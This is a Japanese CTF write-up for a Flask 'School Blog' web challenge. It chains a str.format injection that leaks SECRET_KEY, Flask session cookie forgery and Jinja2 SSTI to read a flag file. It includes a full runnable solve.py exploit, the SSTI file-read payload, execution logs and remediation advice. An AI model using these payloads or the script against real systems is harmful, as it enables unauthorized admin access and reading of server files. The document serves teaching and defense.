

# School Blog — Writeup

## 概要

- **問題名**: School Blog
- **カテゴリ**: Web
- **対象**: Flask製の学校ブログ（デフォルトポート `22521`）
- **脆弱性**: Python Format String Injection → Flask Session Forgery → Jinja2 SSTI
- **目的**: サーバー上の `/app/flag.txt` を取得する

## 1. アプリケーションの調査

`app.py` では `load_secret_key()` で読み込んだ秘密鍵をFlaskの `SECRET_KEY` に設定している。

```python
app = Flask(__name__)
app.config["SECRET_KEY"] = load_secret_key()
```

`auth.py` のログイン処理は、認証済みユーザーの `username` と `role` をFlaskセッションに格納する。

```python
session["username"] = username
session["role"] = user["role"]
```

配布コード上のユーザー `guest` は `role: user` であり、通常のログインでは管理者になれない。一方、`admin_required` はセッション中の `role` の値だけでアクセス制御を行っている。

```python
def admin_required(func):
    @wraps(func)
    def wrapper(*args, **kwargs):
        if session.get("role") != "admin":
            return "403 Forbidden", 403
        return func(*args, **kwargs)
    return wrapper
```

Flask標準のセッションCookieは署名付きだが暗号化されていない。`SECRET_KEY` が分かれば、任意のセッションデータに正しい署名を付けられる。

## 2. Format String Injectionによる秘密鍵漏洩

`app.py` の `/about` エンドポイントには以下の処理がある。

```python
@app.route("/about")
def about():
    msg = request.args.get("msg", "Welcome to our school blog!")
    try:
        message = msg.format(config=app.config, version="1.0.0")
    except Exception:
        message = "Formatting Error"
    return render_template("about.html", message=message)
```

ユーザーが制御できる `msg` を `str.format()` に直接渡し、さらに `config=app.config` を公開している。このため、フォーマットフィールドから設定辞書を参照できる。

```text
GET /about?msg=KEYSTART%7Bconfig%5BSECRET_KEY%5D%7DKEYEND
```

URLデコード後のペイロード:

```text
KEYSTART{config[SECRET_KEY]}KEYEND
```

`str.format()` が `{config[SECRET_KEY]}` を展開し、応答HTML中に `KEYSTART<秘密鍵>KEYEND` が出力される。`KEYSTART` / `KEYEND` は抽出用の区切り文字であり、Python側で正規表現を使って秘密鍵を取得する。

```python
r = s.get(base + '/about', params={
    'msg': 'KEYSTART{config[SECRET_KEY]}KEYEND'
})
m = re.search(r'KEYSTART(.*?)KEYEND', html.unescape(r.text), re.S)
secret = m.group(1).strip()
```

これは **Jinja2 SSTIではなく、Pythonの `str.format()` による情報漏洩** である点が重要である。

## 3. FlaskセッションCookieの偽造

取得した秘密鍵を使い、Flaskと同じシリアライザで署名付きCookieを生成する。

```python
app = Flask(__name__)
app.secret_key = secret
serializer = SecureCookieSessionInterface().get_signing_serializer(app)
cookie = serializer.dumps({
    'username': 'guest',
    'role': 'admin'
})
```

これを `session` Cookieとして送信すると、アプリケーションは正しい署名を持つセッションとして受け入れ、`admin_required` の `role == "admin"` 判定を通過する。

```http
GET /admin HTTP/1.1
Host: 127.0.0.1:22521
Cookie: session=<偽造した署名付きCookie>
```

## 4. 管理者プレビュー機能のSSTI

`admin.py` では管理者が保存した記事の下書きをセッションに格納する。

```python
@admin_bp.route('/admin/save', methods=['POST'])
@admin_required
def save():
    draft = request.form.get('draft', '')
    session['draft'] = draft
    return render_template('admin.html', draft=draft, message='Saved!')
```

プレビュー時には、その内容をテンプレート文字列として直接評価している。

```python
@admin_bp.route('/admin/preview')
@admin_required
def preview():
    draft = session.get('draft', '<h2>No Draft</h2>')
    return render_template_string(draft, title='Preview')
```

`render_template_string(draft, ...)` が **Server-Side Template Injection (SSTI)** の原因となる。

Flagを読み取るペイロード:

```jinja2
{{ get_flashed_messages.__globals__.__builtins__.open('/app/flag.txt').read() }}
```

この式は、Jinja2から参照可能な `get_flashed_messages` 関数のグローバル名前空間にアクセスし、Python組み込みの `open()` を呼び出してファイルを読み取る。Dockerfileではアプリケーションを `/app` に配置しており、配布物に `flag.txt` が含まれているため、対象パスは `/app/flag.txt` となる。

通常の攻撃手順は以下の通り。

1. 偽造した管理者セッションで `POST /admin/save` に `draft` を送信する。
2. `GET /admin/preview` を呼び出す。
3. Jinja2が `draft` を評価し、Flagの内容がレスポンスに現れる。

なお、`draft` もFlaskセッションに格納されるため、**`role=admin` とSSTIペイロードを同時に署名したCookieを作れば、`/admin/save` を省略して `/admin/preview` を直接呼び出すこともできる**。

## 5. Exploit

以下は実行用スクリプトである。`solve.py` として保存する。

```python
#!/usr/bin/env python3
import argparse
import html
import re
import sys
from urllib.parse import urlparse

import requests
from flask import Flask
from flask.sessions import SecureCookieSessionInterface


def main():
    parser = argparse.ArgumentParser(description='School Blog CTF solver')
    parser.add_argument('url', help='Target URL (e.g. http://127.0.0.1:22521)')
    parser.add_argument('--timeout', type=float, default=10.0)
    args = parser.parse_args()

    base = args.url.rstrip('/')
    host = urlparse(base).hostname
    if not host or urlparse(base).scheme not in ('http', 'https'):
        parser.error('Specify a valid http(s) URL')

    payload = "{{ get_flashed_messages.__globals__.__builtins__.open('/app/flag.txt').read() }}"
    s = requests.Session()

    try:
        # Step 1: Leak SECRET_KEY through Python str.format().
        r = s.get(
            base + '/about',
            params={'msg': 'KEYSTART{config[SECRET_KEY]}KEYEND'},
            timeout=args.timeout,
        )
        r.raise_for_status()
        m = re.search(r'KEYSTART(.*?)KEYEND', html.unescape(r.text), re.S)
        if not m:
            raise RuntimeError('SECRET_KEY was not found in /about response')
        secret = m.group(1).strip()
        print('[+] SECRET_KEY:', secret)

        # Step 2: Forge a signed admin session containing the SSTI draft.
        app = Flask(__name__)
        app.secret_key = secret
        serializer = SecureCookieSessionInterface().get_signing_serializer(app)
        cookie = serializer.dumps({
            'username': 'guest',
            'role': 'admin',
            'draft': payload,
        })
        s.cookies.clear()
        s.cookies.set('session', cookie, domain=host, path='/')
        print('[+] Forged admin session for:', host)

        # Step 3: Render the malicious draft and read the flag.
        r = s.get(base + '/admin/preview', timeout=args.timeout,
                  allow_redirects=False)
        print('[+] Preview HTTP status:', r.status_code)
        if r.status_code != 200:
            raise RuntimeError(f'Preview request failed: HTTP {r.status_code}')
        print('[+] Preview response:\n' + r.text.strip())
        return 0

    except (requests.RequestException, RuntimeError, ValueError) as exc:
        print('[-] Error:', exc, file=sys.stderr)
        return 1


if __name__ == '__main__':
    sys.exit(main())
```

### 実行方法

```bash
python3 -m pip install flask requests
python3 solve.py http://127.0.0.1:22521
```

リモート環境では、URLをCTFの指定先に変更する。

```bash
python3 solve.py http://TARGET_HOST:22521
```

正常に攻撃が成立すれば、秘密鍵の取得、プレビューのHTTPステータス、Flagを含むレスポンスが表示される。**実際のFlag値は環境によって異なるため、ここでは記載しない。**

## 6. 根本原因と対策

| 問題点 | 原因 | 対策 |
|---|---|---|
| 秘密鍵漏洩 | 外部入力を `str.format()` に渡し、`app.config` を参照可能にした | 外部入力をフォーマット文字列として解釈せず、固定テンプレート内でテキストとして表示する |
| 管理者セッション偽造 | 漏洩した `SECRET_KEY` で正当な署名を生成できる | 秘密鍵の秘匿・ローテーション、必要に応じてサーバー側セッション管理を導入する |
| SSTI | 未信頼の `draft` を `render_template_string()` に渡した | 固定のテンプレートに `draft` を変数として渡し、テンプレートコードとして評価しない |

例えばプレビュー処理は、固定テンプレートを使って次のように変更できる。

```python
return render_template('preview.html', draft=draft, title='Preview')
```

`preview.html` 側では `{{ draft }}` として表示する（HTMLを許可する場合は別途サニタイズを検討する）。

## 7. まとめ

この問題は単一の脆弱性ではなく、**情報漏洩 → 認証・認可の突破 → SSTIによるファイル読み取り** を連鎖させるWeb問題である。

特に、Flaskの署名付きCookieは `SECRET_KEY` の秘匿性に依存すること、そして `render_template_string()` に未信頼データを直接渡すとテンプレート式が実行されることが攻略の鍵となる。

## 8. 実行証拠（2026-10-10のスクリーンショット）



提供されたターミナルのスクリーンショットでは、対象 `http://10.234.128.31:22521` に対する次の実行が確認できる（秘密鍵そのものは再掲しない）。

```text
python3 solve_school_blog.py http://10.234.128.31:22521
[+] SECRET_KEY: [REDACTED]
[+] GET /admin: 200
[+] POST /admin/save: 200
[+] GET /admin/preview: 200
[+] Preview output:
<h2>No Draft</h2>

python3 solve_school_blog_fixed.py http://10.234.128.31:22521
[+] SECRET_KEY: [REDACTED]
[+] Cookie prepared for: 10.234.128.31
[+] Preview status: 200
[+] Preview response:
flag{f0rm47_1n_53cr37_0u7}
```

**判定:** `/about` からの秘密鍵漏洩、管理者権限のセッション偽造、および修正版によるFlag読み取りは実行ログで裏付けられる。一方、最初のExploitでは `No Draft` となっており、HTTP 200だけではSSTI成功の証拠にならない。

### なぜ最初のスクリプトは `No Draft` だったのか

`admin.py` の `/admin/save` は `session['draft']` を更新し、レスポンスの `Set-Cookie` で更新後のセッションを返す。最初のスクリプトでは `requests.Session().cookies.set('session', ...)` によりドメイン未指定のCookieを設定している。Cookieの重複や送信優先順位が絡むと、保存後のCookieではなく古いセッションがプレビューに送られ得る。ログから確定できるのは **プレビュー時点で `draft` が見つからなかったこと** までであり、Cookieの衝突が実際の直接原因だったかは送受信ヘッダなしでは断定できない。

修正版では、`role=admin` と `draft` を**同じ署名付きセッションに直接格納**し、Cookieをクリアしたうえで対象ホストを指定して送信する。そのため `/admin/save` を経由せず `/admin/preview` に直接アクセスしても、プレビュー対象のテンプレート文字列が存在する。

## 9. FSBとの関係：なぜ `{config[SECRET_KEY]}` で漏れるのか

この問題の入口は、C言語の `printf(user_input)` に代表される **Format String Bug (FSB)** と発想が似ている。どちらも、外部入力を単なる表示文字列ではなく**書式を解釈する命令**として扱うことで発生する。ただし、仕組みと攻撃可能範囲は異なる。

| 比較 | C言語のprintf型FSB | 本問のPython `str.format()` |
|---|---|---|
| 記法 | `%p`, `%s`, `%n` など | `{name}`, `{object[attr]}` など |
| 原因 | 外部入力が書式文字列になる | 外部入力が書式文字列になる |
| 典型的な影響 | メモリ情報漏洩、条件次第で書き込み | 渡されたオブジェクトの属性・要素の情報漏洩 |
| 本問で成立したこと | **該当しない** | `config[SECRET_KEY]` の読み取り |

脆弱な処理は `msg.format(config=app.config, version='1.0.0')` である。`msg` がユーザー入力なので、`{config[SECRET_KEY]}` は単なる文字列ではなく、`app.config` の `SECRET_KEY` を参照する置換フィールドとして処理される。ここでは任意のPython式を実行できるわけではない。`str.format()` と、後段のJinja2 `{{ ... }}` は**別の評価機構**である。

### この脆弱性から考えられること

- **設定情報の露出:** `format()` に渡されたオブジェクトから参照可能な設定値が漏れる可能性がある。
- **セッションの偽造:** `SECRET_KEY` が漏れると、Flaskの署名付きCookieに任意のセッション値を付けて正しく署名できる。
- **管理者機能への侵入:** このアプリでは `role` をセッションから信頼しているため、偽造した `role=admin` で認可を通過できる。
- **SSTI:** 管理者プレビューは `render_template_string(draft)` を呼ぶため、`draft` 内のJinja2式が評価される。
- **サーバーファイルの読み取り:** 本問では `get_flashed_messages.__globals__.__builtins__.open('/app/flag.txt').read()` によりFlagを読み取れた。一般にSSTIは条件次第でより広範な操作に発展し得るが、本問の証拠が直接示すのはファイル読み取りまでである。

## 10. 関連資料・解説記事

1. [Python公式ドキュメント — Format String Syntax](https://docs.python.org/3/library/string.html#format-string-syntax) — `{config[SECRET_KEY]}` のような置換フィールドとインデックス参照の仕組み。
2. [Python公式ドキュメント — str.format](https://docs.python.org/3/library/stdtypes.html#str.format) — フォーマット文字列がオブジェクトの値を展開するAPIの仕様。
3. [Flask公式ドキュメント — Sessions](https://flask.palletsprojects.com/en/stable/api/#sessions) — Flask標準セッションが署名付きCookieであり、秘密鍵が安全性の前提になること。
4. [PortSwigger Web Security Academy — Server-side template injection](https://portswigger.net/web-security/server-side-template-injection) — SSTIの原理、検出、悪用と対策の入門。
5. [PortSwigger Research — Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection) — テンプレートエンジン別の調査手法と影響を掘り下げた研究記事。

**要点:** 最初の `str.format()` は秘密情報を**読む**ための入口であり、最終的なファイル読み取りは `render_template_string()` による**別のSSTI**で実現した。2つを混同せず、`SECRET_KEY` を介して連鎖したことが本問の核心である。
